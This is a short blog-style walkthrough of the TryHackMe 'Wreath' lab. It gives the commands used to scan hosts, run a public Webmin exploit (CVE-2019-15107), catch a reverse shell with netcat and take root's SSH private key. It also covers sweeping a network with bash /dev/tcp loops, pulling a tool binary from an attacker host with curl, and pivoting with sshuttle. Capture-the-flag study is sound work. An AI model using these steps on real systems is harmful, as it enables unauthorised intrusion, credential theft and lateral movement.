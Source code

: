 +++
date = '2024-11-18T21:56:18+01:00'
draft = false
title = 'Wreath Walkthrough'
tags = ["TryHackMe"]
+++

# Enumeration

Nmap scan for open ports

```
nmap -p-15000 -vv 10.200.81.200
```

Nmap scan for OS recognition through headers

```
nmap -vv 10.200.81.200 --script=http-headers
```

# Exploitation

Once vulnerability is found, download script from github.

```
git clone https://github.com/MuirlandOracle/CVE-2019-15107
```

For python pip install:

```
sudo apt install python3-pip
```

If privileges are missing use:

```
chmod +x yourfile.py
```

Now we can open the reverse shell:

![](/images/wreath/wreath1.png)

Set up netcat listener to catch reverse shell.

```
nc -lvnp 4444
```

Use rlwrap to stabilise the shell.

Now lets get ssh credentials since we won't be able to crack password hash.

Go to: root/.ssh/id\_rsa

Copy the content of the file to another and use the following command to log through ssh

```
ssh -i key.txt root@ip
```

# Pivoting

Important paths:

File with DNS entries: /etc/resolv.conf

Windows hosts: C:\Windows\System32\drivers\etc\hosts

To enumerate the network when nmap or other tools are not installed we should use the following.

Bash ping to analyze the alive connections.

```
for i in {1..255}; do (ping -c 1 10.200.81.${i} | grep "bytes from" &); done
```

We found new host at 10.200.81.250.

Another ping for port enumeration of the network.

```
for i in {1..65535}; do (echo > /dev/tcp/10.200.81.250/$i) >/dev/null 2>&1 && echo $i is open; done
```

Now we are going to transfer a static nmap binary to the machine so we can pivot the network.

Once downloaded start python web server.

```
sudo python3 -m http.server 80
```

```
curl ATTACKING_IP/nmap-USERNAME -o /tmp/nmap-USERNAME && chmod +x /tmp/nmap-USERNAME
```

This way we get the nmap binary on  the machine.

```
.nmap-puursuit -sn 10.200.81.1-255 -oN scan-puursuit
```

We found 100 and 150 accessible, now we perform another scan on them for open ports.

```
./nmap-puursuit -sS 10.200.81.100
./nmap-puursuit -sS 10.200.81.150
```

We have discovered the http service running on port 80 on the .150 machine.

Let's use sshuttle to pivote through the network.

```
sshuttle -r root@10.200.81.200 --ssh-cmd "ssh -i sshkey.txt" 10.200.81.200/24 -x 10.200.81.200
```